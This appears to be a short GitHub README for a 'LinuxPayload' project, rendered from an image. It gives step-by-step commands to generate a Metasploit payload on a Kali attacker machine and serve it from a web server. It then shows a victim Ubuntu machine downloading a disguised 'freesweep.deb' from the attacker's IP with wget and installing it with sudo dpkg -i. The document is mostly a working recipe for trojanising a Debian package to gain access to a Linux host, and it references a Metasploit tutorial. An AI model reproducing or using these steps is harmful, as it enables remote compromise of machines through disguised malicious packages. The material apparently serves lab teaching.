 "# LinuxPayload" 

For details use the read metasploit_tutorial.docx

Run the following in kali linux to generate and serve the payload in webserver.
	
	git clone https://github.com/kaushik-ayinala/LinuxPayload.git
	cd LinuxPayload
	sh payload.sh [IP]  

#In the last command, IP refers to the IP of attacker/kali machine Eg: sh payload.sh 10.0.2.6

Download and install generated payload in ubuntu 

	wget http://[IP]/freesweep.deb
	sudo dpkg -i freesweep.deb

#In the first command, IP refers to the IP of attacker/kali machine Eg: wget http://10.0.2.6/freesweep.deb


